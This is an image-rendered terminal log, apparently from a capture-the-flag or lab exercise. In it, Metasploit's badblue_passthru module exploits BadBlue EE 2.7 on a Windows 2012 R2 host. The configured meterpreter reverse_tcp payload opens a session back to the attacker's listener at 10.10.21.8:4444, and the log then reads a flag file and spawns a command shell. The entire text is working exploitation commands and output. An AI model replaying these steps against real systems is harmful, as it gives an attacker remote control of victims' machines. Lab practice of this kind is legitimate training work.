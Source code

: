 ```
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/http/badblue_passthru) > show options

Module options (exploit/windows/http/badblue_passthru):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   10.0.28.107      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   BadBlue EE 2.7 Universal


msf5 exploit(windows/http/badblue_passthru) > set lhost eth1
lhost => 10.10.21.8
msf5 exploit(windows/http/badblue_passthru) > exploit

[*] Started reverse TCP handler on 10.10.21.8:4444 
[*] Trying target BadBlue EE 2.7 Universal...
[*] Sending stage (180291 bytes) to 10.0.28.107
[*] Meterpreter session 1 opened (10.10.21.8:4444 -> 10.0.28.107:49275) at 2022-08-29 16:55:28 +0530

meterpreter > sysinfo
Computer        : WIN-OMCNBKR66MN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > search -f flag*
Found 2 results...
    c:\flag.txt (32 bytes)
    c:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Recent\flag.txt.lnk (481 bytes)
meterpreter > cat c:\\flag.txt
70a569da306697d64fc6c19afea37d94
meterpreter > shell
Process 1616 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\BadBlue\EE>type c:\flag.txt
type c:\flag.txt
```